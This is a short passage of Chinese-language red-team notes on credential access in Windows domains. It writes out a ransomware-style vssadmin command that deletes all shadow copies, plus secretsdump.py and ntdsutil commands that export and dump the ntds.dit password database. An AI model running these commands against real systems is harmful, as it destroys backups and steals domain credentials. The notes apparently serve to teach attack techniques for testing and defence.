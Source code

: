 **卷影复制**

卷影副本也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。

（勒索软件通常会删除卷影副本：C:\Windows\Sysnative\vssadmin.exe"Delete Shadows /All /Quiet）

![1574317582705](Credential%20Access.assets/1574317582705.png)

**secretsdump.py**

secretsdump.py在这里的作用是从已经导出的ntds.dit文件中导出明文。Mimikatz也可以达到相同的效果

```
python secretsdump.py -ntds /demo/ntds/ntds.dit -system /demo/ntds/SYSTEM LOCAL
```

![1574317609798](Credential%20Access.assets/1574317609798.png)    

**ntdsutil.exe**

可以直接通过ntdsutil命令导出ntds.dit文件

```
ntdsutil "ac i ntds" "ifm" "create full c:temp" q q
```
